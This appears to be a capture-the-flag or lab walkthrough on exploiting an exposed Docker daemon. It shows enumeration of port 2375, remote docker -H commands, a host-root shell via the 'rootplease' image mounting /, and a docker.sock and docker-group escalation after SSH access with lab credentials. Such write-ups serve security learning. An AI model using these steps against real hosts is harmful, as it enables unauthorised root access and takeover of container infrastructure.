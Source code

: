 Sockets run Unix or TCP socket
Docker uses groups
Docker automation tools like Portainer or DevOps apps Jenkins to test their program

enumerate the host and look for exposed service
- port 2375 (default)
- `nmap -sV -p- x.x.x.x`
- `2375/tcp open docker Docker 19.03.13`
- confirm port is open `curl http://x.x.x.x:2375/version`

curl returns
```
{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"19.03.13","Details":{"ApiVersion":"1.40","Arch":"amd64","BuildTime":"2020-09-16T17:01:06.000000000+00:00","Experimental":"false","GitCommit":"4484c46d9d","GoVersion":"go1.13.15","KernelVersion":"4.15.0-123-generic","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.3.7","Details":{"GitCommit":"8fba4e9a7d01810a393d5d25a3621dc101981175"}},{"Name":"runc","Version":"1.0.0-rc10","Details":{"GitCommit":"dc9208a3303feef5b3839f4323d9beb36df0a9dd"}},{"Name":"docker-init","Version":"0.18.0","Details":{"GitCommit":"fec3683"}}],"Version":"19.03.13","ApiVersion":"1.40","MinAPIVersion":"1.12","GitCommit":"4484c46d9d","GoVersion":"go1.13.15","Os":"linux","Arch":"amd64","KernelVersion":"4.15.0-123-generic","BuildTime":"2020-09-16T17:01:06.000000000+00:00"}
```

Docker command using the `-H` to specify the instance to list containers running
- `docker -H tcp://x.x.x.x:2375 ps `
-  `docker -H tcp://x.x.x.x:2375 network ls `
- `docker -H tcp://x.x.x.x:2375 images `
- `docker -H tcp://x.x.x.x:2375 exec `
- `docker -H tcp://x.x.x.x:2375 run `

try to gain a shell on some containers using a tool `rootplease` https://registry.hub.docker.com/r/chrisfosterelli/rootplease

```
git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
cd rootplease
docker build -t rootplease .
docker run -v /:/hostOS -it --rm rootplease
```
- type exit 

## Docker daemon

assume we managed to gain a foothold onto the container via vulnerable website running in a container

CONNECT TO CONTAINER
- `x.x.x.x`
- SSH port 2233
- `danny:danny`
- ` ssh danny@x.x.x.x -p 2233`
- `whoami` danny

LOOK FOR DOCKER SOCKET
- `cd /var/run`
- `ls -la | grep sock` returns `docker.sock`
- `groups`  returns danny docker
